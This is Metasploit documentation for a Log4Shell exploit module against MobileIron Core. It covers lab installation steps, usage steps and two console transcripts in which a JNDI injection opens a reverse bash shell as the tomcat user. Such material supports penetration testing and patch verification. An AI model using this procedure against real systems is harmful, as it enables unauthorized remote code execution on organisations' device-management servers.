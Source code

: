 ## Vulnerable Application

### Description
MobileIron Core is affected by the Log4Shell vulnerability whereby a JNDI string sent to the server
will cause it to connect to the attacker and deserialize a malicious Java object. This results in OS
command execution in the context of the tomcat user.

This module will start an LDAP server that the target will need to connect to.

### Setup
Once MobileIron Core is installed, no configuration needs to take place. The application is vulnerable out of the box.

### MobileIron Core Appliance ISO Installation on VMWare Fusion

1. Obtain a `mobileiron-##.#.#.#-##.iso` file, the following steps utilize `mobileiron-10.6.0.0-23.iso`.
2. Use the ISO to create "A New Virtual Machine".
3. Customize the VM settings to your liking. I gave the VM 4gb RAM, 4 cores, and changed the network adapter to a bridged mode
so that I can hit it over the network.
4. Boot the new virtual machine.
5. Type `vm-install` at the `boot:` prompt.
6. Wait patiently while the VM reboots and begins the install process. The system *will* reboot when installation completes.
7. When prompted with `Continue with configuration dialog?`, type `yes`
8. Type `q` to clear the license from the screen.
9. Accept the End User License Agreement by typing `yes`
10. Enter a Company Name / contact / email of your choosing. They don't matter.
11. Configure an enable password (e.g. `Labpass1`)
12. Enter an admin user name (e.g. `albinolobster`)
13. Enter and confirm an admin password (e.g. `Labpass1`)
14. Select `a` for the management interface
15. Assign a static IP address and network mask that works with your test network. (e.g. `10.9.49.101` and `255.255.255.0`)
16. Enter your test networks default gateway (e.g. `10.9.49.1`)
17. Enter a fully-qualified domain name for the device (e.g. `lobster.example.com`). Unfortunately, this needs to work. I added a
static DNS entry to my lab network's router.
18. Enter your desired name server. My lab network relies on the aforementioned router (e.g. `10.9.49.1`)
19. Enter blank entries for name server 2 and 3.
20. `yes` to enable remote shell access (why not, right?)
21. `no` to configuring NTP
22. `no` to configuring system clock
23. `yes` to commit changes
24. Type `reload` to restart the system and `yes`, when prompted, to both saving the configuration and proceeding with the reload
25. When the system has restarted, you should now have a vulnerable install of MobileIron Core.
26. Visit `https://ipaddr` to ensure the HTTP server has fully loaded

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/http/mobileiron_core_log4shell`
3. Set the `RHOSTS`, `LHOST`, and `SRVHOST`
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Options

## Scenarios

### MobileIron Core 11.2.0.0-31

```
msf > use exploit/linux/http/mobileiron_core_log4shell
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/mobileiron_core_log4shell) > set LHOST 10.9.49.248
LHOST => 10.9.49.248
msf exploit(linux/http/mobileiron_core_log4shell) > set SRVHOST 10.9.49.248
SRVHOST => 10.9.49.248
msf exploit(linux/http/mobileiron_core_log4shell) > set SRVPORT 1389
SRVPORT => 1389
msf exploit(linux/http/mobileiron_core_log4shell) > set RHOSTS 10.9.49.100
RHOSTS => 10.9.49.100
msf exploit(linux/http/mobileiron_core_log4shell) > run

[*] Started reverse TCP handler on 10.9.49.248:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened (10.9.49.248:4444 -> 10.9.49.100:48004) at 2022-07-29 09:46:14 -0700
[*] Server stopped.

id
uid=101(tomcat) gid=102(tomcat) groups=102(tomcat)
uname -a
Linux hackercat.example.com 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

### MobileIron Core 10.6.0.0-23

```
msf > use exploit/linux/http/mobileiron_core_log4shell
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/mobileiron_core_log4shell) > set LHOST 10.9.49.248
LHOST => 10.9.49.248
msf exploit(linux/http/mobileiron_core_log4shell) > set SRVHOST 10.9.49.248
SRVHOST => 10.9.49.248
msf exploit(linux/http/mobileiron_core_log4shell) > set SRVPORT 1389
SRVPORT => 1389
msf exploit(linux/http/mobileiron_core_log4shell) > set RHOSTS 10.9.49.101
RHOSTS => 10.9.49.101
msf exploit(linux/http/mobileiron_core_log4shell) > run

[*] Started reverse TCP handler on 10.9.49.248:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened (10.9.49.248:4444 -> 10.9.49.101:35304) at 2022-07-29 10:19:58 -0700
[*] Server stopped.

id
uid=101(tomcat) gid=102(tomcat) groups=102(tomcat)
uname -a
Linux lobster.example.com 3.10.0-1062.4.1.el7.x86_64 #1 SMP Fri Oct 18 17:15:30 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 10.9.49.101 - Command shell session 1 closed.
```
